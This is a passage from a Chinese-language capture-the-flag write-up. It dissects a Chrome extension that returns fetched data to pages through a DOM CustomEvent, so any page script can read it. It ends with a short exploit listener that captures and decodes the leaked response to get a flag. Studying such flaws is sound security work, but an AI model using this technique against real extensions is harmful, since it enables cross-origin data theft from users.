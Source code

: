 然后发起**牛逼的** HTTP 请求并获取响应：

```javascript
try {
    c = await fetch(a || "");
} catch(c) {
    throw new Error("Could not fetch ".concat(a, ", status: ").concat(c.status));
}
var u = await c.blob();
var s;
(s = new FileReader).onloadend = function() {
    ... // to be continued
};
s.onerror = function() {};
s.readAsDataURL(u);
```

最后把响应发回页面：

```javascript
chrome.tabs.query({
    active: !0,
    currentWindow: !0,
}, (function(t) {
    var r;
    chrome.scripting.executeScript({
        target: {
            tabId: null == t || null === (r = t[0]) || void 0 === r ? void 0 : r.id,
        },
        func: n,
        args: [{
            action: "imgUrl2Base64_received",
            message: "".concat(s.result),
        }],
    });
}));

function n(t) {
    window.dispatchEvent(new CustomEvent("sendDataToContentScript", {
        detail: t,
    }));
}
```

如果你有过 Chrome 扩展开发经历，看到这段代码应该已经蚌埠住了。根据[教程](https://developer.chrome.com/docs/extensions/develop/concepts/messaging)，后台页面可以使用 `sendResponse` 来回复页面的 `chrome.runtime.sendMessage` 消息，任何一个脑子正常的程序员都应该这么做。

但它的程序员似乎另辟蹊径，决定不回复这个消息（Chrome里有一款不回页面消息的扩展程序.jpg），但是偷偷用 `chrome.tabs.query` 查一下当前页面是哪个页面，然后用 `chrome.scripting.executeScript` 把结果通过 DOM 事件（`window.dispatchEvent`）塞回去。

不是哥们，你在干什么？放弃 Chrome 官方的扩展程序 API 而胡搞这么一通，造成的后果就是现在页面上的任何 JS 脚本都能收到这个 DOM 事件了。

所以在之前的 EXP 基础上，我们也接收一下这个事件，即可获得 Flag 2：

```javascript
window.addEventListener('sendDataToContentScript', (e)=>{
    let msg = e.detail.message;
    document.title = atob(msg.split(',')[1]);
});
```
